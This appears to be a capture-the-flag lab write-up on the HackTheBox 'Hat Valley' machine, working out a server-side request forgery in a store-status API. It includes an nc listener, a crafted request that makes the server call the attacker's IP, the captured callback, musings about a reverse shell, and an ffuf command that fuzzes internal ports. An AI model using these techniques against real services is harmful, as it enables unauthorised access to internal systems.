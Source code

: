 There seems to be an embedded url in the `url` field for `/api/store-status`
- GET `/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb%22`
    - interesting piece of info on the api behavior
    - do we think it's vulnerable to injection?
    - like, point it to our attacker host?
- Currently, the site shows the store as down


If we spawn a listener:
```
nc -nlvp 80
```

When we edit the HTTP GET request to:
```
GET /api/store-status?url=%22http:%2F%2F10.10.14.37%22 HTTP/1.1
```

We get back on our terminal:
```
└─$ nc -nvlp 80  
listening on [any] 80 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.185] 37754
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.27.2
Host: 10.10.14.37
Connection: close
```

Can we update this to a reverse shell?
- it looks like it just tries to connect to the url and then closes the connection after it gets a response code from the url it's pining
- so i'm not sure what type of command the server is issuing
- also `axios/0.27.2` is not showing any vulnerabilities via `snyk` or `nuget.qite.be`

The fact that we can query:
`http://hat-valley.htb/api/store-status?url="store.hat-valley.htb"`

The query accessing an ADDITIONAL server means that we could utilize some type of SSRF, meaning, try to access an arbitrary internal server from the endpoint server
- the `url` string allows us to do a GET request on any server which the web server can access

So, internal documents or services on the internal `localhost`'s ports would be available, which could also forward us to other systems (if there's port forwarding enabled on the web server)
- so we can use `ffuf` to enumerate the various types of ports exposed from `localhost`

We want to enumerate all ports 1-65535, so we create a list:
```
for num in {1..65535}
    do
        echo $num >> ports.txt
    done
```

We'll run the command:
`ffuf -w ports.txt -u http://hat-valley.htb/api/store-status?url="http://localhost:FUZZ" | grep -v "Words: 0"` 
